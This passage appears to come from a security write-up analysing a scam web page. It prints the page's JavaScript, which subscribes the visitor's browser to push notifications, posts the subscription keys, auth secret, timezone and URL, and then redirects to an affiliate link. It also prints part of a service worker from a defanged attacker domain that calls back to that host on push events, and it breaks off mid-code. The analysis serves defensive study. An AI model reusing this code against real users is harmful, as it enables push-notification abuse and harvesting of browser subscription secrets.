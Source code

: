 ```js
      })
    )
    .then((sub) => {
      let gmt = -new Date().getTimezoneOffset() / 60;
      let rawKey = sub.getKey ? sub.getKey("p256dh") : "";
      let key = rawKey
        ? btoa(String.fromCharCode.apply(null, new Uint8Array(rawKey)))
        : "";
      let rawAuthSecret = sub.getKey ? sub.getKey("auth") : "";
      let authSecret = rawAuthSecret
        ? btoa(String.fromCharCode.apply(null, new Uint8Array(rawAuthSecret)))
        : "";
      return fetch(
        "/?push=**************************************************************&land=**",
        {
          method: "POST",
          mode: "no-cors",
          body: JSON.stringify({
            id: sub.endpoint,
            key: key,
            secret: authSecret,
            gmt: gmt,
            uri: window.location.href,
          }),
        }
      );
    })
    .then(() => {
      window.location.href =
        "https[:]//url-partners[.]g2afse[.]com/click[?]pid=****&offer_id=11&sub2=tonvay2";
    })
    .catch(() => {
      denied();
    });
}
```

That's interesting. The page seems to be subscribing the user's browser to a Push service using `registration.pushManager`. We couldn't make it work to see what kind of message it would display. Finally, the user is redirected to `https[:]//url-partners[.]g2afse[.]com/click[?]pid=****&offer_id=11&sub2=tonvay2`

Notice that `w_15.js` is being loaded. What this script does is just load another script, `https[:]//allowandgo[.]club/sw/w_11[.]js`. This file adds event listeners for some actions:

```js
"use strict";
var host = "https[:]//allowandgo[.]club/";
self.addEventListener("install", function (event) {
  event.waitUntil(self.skipWaiting());
});
self.addEventListener("activate", function (event) {
  event.waitUntil(clients.claim());
});
self.addEventListener("push", function (event) {
  event.waitUntil(
    self.registration.pushManager
      .getSubscription()
      .then(function (subscription) {
        return fetch(
          host +
            "?endpoint=" +
            subscription.endpoint.split("/").pop() +
            "&ver=2"
```